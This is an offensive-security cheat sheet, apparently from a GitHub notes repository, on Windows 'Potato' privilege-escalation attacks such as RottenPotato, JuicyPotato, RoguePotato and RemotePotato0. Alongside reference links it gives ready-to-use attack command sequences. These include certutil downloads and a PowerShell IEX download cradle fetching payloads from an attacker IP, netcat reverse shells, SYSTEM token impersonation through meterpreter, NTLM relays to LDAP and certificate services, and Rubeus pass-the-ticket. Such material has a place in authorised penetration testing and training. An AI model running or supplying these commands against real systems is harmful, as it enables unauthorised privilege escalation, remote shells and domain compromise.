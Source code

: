 # Potatoes

- [https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html](https://jlajara.gitlab.io/others/2020/11/22/Potatoes_Windows_Privesc.html)




## RottenPotato

- [https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)
- [https://github.com/foxglovesec/RottenPotato](https://github.com/foxglovesec/RottenPotato)

```
$ curl -L https://github.com/foxglovesec/RottenPotato/raw/master/rottenpotato.exe > r.exe
meterpreter > upload r.exe
meterpreter > load incognito
meterpreter > execute -cH -f r.exe
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
```




## LonelyPotato

- [https://decoder.cloud/2017/12/23/the-lonely-potato/](https://decoder.cloud/2017/12/23/the-lonely-potato/)
- [https://github.com/decoder-it/lonelypotato](https://github.com/decoder-it/lonelypotato)




## JuicyPotato

- [https://ohpe.it/juicy-potato/](https://ohpe.it/juicy-potato/)
- [https://ohpe.it/juicy-potato/CLSID/](https://ohpe.it/juicy-potato/CLSID/)
- [https://github.com/ohpe/juicy-potato/releases](https://github.com/ohpe/juicy-potato/releases)
- [https://github.com/ivanitlearning/Juicy-Potato-x86/releases](https://github.com/ivanitlearning/Juicy-Potato-x86/releases)

```
$ curl -L https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe > j.exe
...Using pwsh reverse shell...
$ curl -L https://github.com/samratashok/nishang/raw/master/Shells/Invoke-PowerShellTcpOneLine.ps1 > rev.ps1
Cmd > certutil -urlcache -split -f http://10.10.13.37/j.exe C:\Windows\System32\spool\drivers\color\j.exe
Cmd > echo cmd /c powershell -exec bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')" > rev.bat
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\rev.bat
...Using nc.exe...
Cmd > .\j.exe -t * -c {8BC3F05E-D86B-11D0-A075-00C04FB68820} -l 1337 -p C:\Windows\System32\spool\drivers\color\nc.exe "10.10.13.37 1337 -e cmd"
```




## RoguePotato

- [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)
- [https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

Redirect traffic that comes to 135 port on Attacker (`10.10.13.37`) with `socat` back to the Victim (`192.168.1.11`) on port 9999 (RogueOxidResolver is running locally on port 9999 on Victim):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9999
```

Trigger the potato to run a binary with high privileges (don't forget to start a listener if sending a reverse shell):

```
Cmd > .\RoguePotato.exe -r 10.10.13.37 -e "C:\windows\Temp\nc.exe 10.10.13.37 443 -e cmd" -l 9999
```




## RemotePotato0

- [https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/)
- [https://github.com/antonioCoco/RemotePotato0/releases](https://github.com/antonioCoco/RemotePotato0/releases)

Get session ID of the user to pwn:

```
Cmd > query user
Cmd > quser
```

Hashes collector (modes 2, 3):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
Cmd > .\RemotePotato0.exe -m 2 -x 10.10.13.37 -p 9998 -s 5
```

Cross-protocol relay (modes 0, 1):

```
$ sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:192.168.1.11:9998
$ sudo ntlmrelayx.py -t ldap://192.168.1.11 --no-smb-server --no-wcf-server --no-raw-server --escalate-user snovvcrash
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5
```

[Combining](https://twitter.com/0xcsandker/status/1430111652008112131) with ESC8:

```
$ sudo ntlmrelayx.py -t http://CA01.megacorp.local/certsrv/certfnsh.asp --no-smb-server --no-wcf-server --no-raw-server --adcs --template User
Cmd > .\RemotePotato0.exe -m 0 -r 10.10.13.37 -x 10.10.13.37 -p 9998 -s 5 -c "{f8842f8e-dafe-4b37-9d38-4e0714a61149}"
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /dc:DC1.megacorp.local /certificate:<BASE64_PFX_CERT> /ptt
```




## GenericPotato

- [https://micahvandeusen.com/the-power-of-seimpersonation/](https://micahvandeusen.com/the-power-of-seimpersonation/)
- [https://github.com/micahvandeusen/GenericPotato](https://github.com/micahvandeusen/GenericPotato)




## EfsPotato

- [https://github.com/zcgonvh/EfsPotato](https://github.com/zcgonvh/EfsPotato)




## Tools



### SweetPotato

- [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)

```
Cmd > .\SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <BASE64_CMD>"
```



### MultiPotato

- [https://github.com/S3cur3Th1sSh1t/MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato)
